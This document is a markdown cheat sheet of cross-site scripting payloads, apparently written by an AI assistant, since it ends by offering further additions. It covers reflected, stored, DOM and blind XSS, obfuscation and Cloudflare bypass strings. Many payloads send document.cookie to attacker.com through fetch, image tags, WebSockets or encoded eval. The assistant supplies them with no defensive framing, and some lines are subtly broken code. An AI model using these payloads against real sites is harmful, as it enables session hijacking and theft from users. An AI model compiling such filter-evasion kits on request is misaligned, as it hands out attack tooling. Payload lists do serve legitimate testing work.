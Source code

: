 

<a href="#" onclick="alert(1)">Click me!</a>














**Cross-Site Scripting (XSS) Payloads**

## **Reflected Cross-Site Scripting (XSS)**

### **1. Basic Alert:**
```html
<script>alert('XSS');</script>
```

### **2. Stealing Cookies:**
```html
<script>fetch('http://attacker.com/log?cookie=' + document.cookie);</script>
```

### **3. Redirecting the User:**
```html
<script>window.location='http://attacker.com';</script>
```

```html
<input type="text" value="<script>alert(123)</script>">
```

### **4. Bypassing Filters (Using Encoded Characters):**
```html
<img src=x onerror=alert('XSS')>
```
**Encoded Version:**
```html
%3Cimg%20src%3Dx%20onerror%3Dalert%281%29%3E
```

### **5. Using Event Handlers:**
```html
<a href="#" onclick="alert(1)">Click me!</a>
<a href="javascript:alert(1)">Click me</a>
```

### **6. Advanced Payload (Using IIFE):**
```html
<script>(()=>{alert('XSS')})()</script>
<img src="x" onerror="alert&#40;'XSS'&#41;">
<iframe src="javascript:alert(1)"></iframe>
<a href="javascript:alert(1)">Click me</a>
```

---

## **Stored Cross-Site Scripting (Stored XSS)**

### **1. Simple Alert Box:**
```html
<script>alert('XSS');</script>
```

### **2. Stealing Cookies:**
```html
<script>fetch('https://attacker.com/log?cookie=' + document.cookie);</script>
```

### **3. Session Hijacking using Image Tag:**
```html
<img src="x" onerror="fetch('https://attacker.com/log?cookie='+document.cookie)">
```

### **4. Automatic Redirection:**
```html
<script>window.location='https://attacker.com'</script>
```

### **5. Advanced Payloads:**
```html
<svg onload=alert('XSS')>
<input type="text" value="" onfocus="alert('XSS')" autofocus>
<script>eval(String.fromCharCode(97,108,101,114,116,40,39,88,83,83,39,41))</script>
<script>(function(){alert('XSS')})()</script>
```

---

## **DOM-Based Cross-Site Scripting (DOM XSS)**

### **1. URL Parameter Exploitation:**
```html
http://example.com/page.html?name=<script>alert('XSS')</script>
```

### **2. Location Hash Manipulation:**
```html
http://example.com/page.html#<img src=x onerror=alert('XSS')>
```

### **3. document.referrer Exploitation:**
```html
<a href="http://example.com/vulnerablePage.html">Go to vulnerable site</a>
```

### **4. Using localStorage:**
```html
localStorage.setItem('user', '<img src=x onerror=alert("XSS")>');
location.reload();
```

### **5. Bypassing Filters with eval():**
```html
http://example.com/page.html?data=alert('XSS')
```

### **6. location.search with innerHTML:**
```html
http://example.com/page.html?message=<svg/onload=alert('XSS')>
```

---

## **Basic Blind XSS Payloads**

### **1. Basic Exfiltration using `<script>`:**
```html
<script>new Image().src='https://attacker.com/log?cookie='+document.cookie;</script>
```

### **2. Using fetch() for Stealth:**
```html
<script>
fetch('https://attacker.com/log', {
method: 'POST',
mode: 'no-cors',
body: 'cookie=' + document.cookie + '&url=' + location.href
});
</script>
```

### **3. Stealing Data with an `<img>` Tag:**
```html
<img src="https://attacker.com/log?data=" + document.cookie>
```

---

## **Obfuscated and Filter Evasion Techniques**

### **1. Encoded Characters:**
```html
<script>eval(String.fromCharCode(102,101,116,99,104,40,39,104,116,116,112,115,58,47,47,97,116,116,97,99,107,101,114,46,99,111,109,47,108,111,103,63,99,111,111,107,105,101,61,39,43,100,111,99,117,109,101,110,116,46,99,111,111,107,105,101,41));</script>
```

### **2. Bypassing Filters with SVG:**
```html
<svg onload="fetch('https://attacker.com/log?cookie='+document.cookie)">
```

### **3. Using setTimeout:**
```html
<script>setTimeout(function(){fetch('https://attacker.com/log?cookie='+document.cookie)}, 2000);</script>
```

---

## **Stealthy Payloads for Non-Script Contexts**

### **1. Using an HTML Attribute:**
```html
<iframe srcdoc="<script>new Image().src='https://attacker.com/log?cookie='+document.cookie;</script>"></iframe>
```

### **2. CSS-Based Payload:**
```html
<style>@import 'https://attacker.com/log?cookie='+document.cookie;</style>
```

### **3. Exfiltrating via WebSocket:**
```html
<script>
let ws = new WebSocket("wss://attacker.com/socket");
ws.onopen = function() {
ws.send(document.cookie);
};
</script>
```

---

## **Cloudflare Bypass Techniques**
```html
<select><style></select>
<svg onload=alert(1)></style>
"><img src=x onerrora=confirm() onerror=confirm(1)>
<DETAILS%0aopen%0aonToGgle%0a%3d%0aa%3dprompt, a(origin)%20x>
<svg onload=alert&#0000000040"1")><">
<svg%20onx=()%20onload=(confirm) (document.domain)> &#34;><track/onerror=&#x27;confirm\%601\%60&#x27;>
"/><img%20s+src+c=x%20on+onerror+%20="alert(1)">
"></script>"><--<img+src= "><svg/onload=alert(document.cookie)>> --!>
```

This structured document categorizes XSS payloads based on their types, use cases, and evasion techniques. Let me know if you need further modifications or additions!

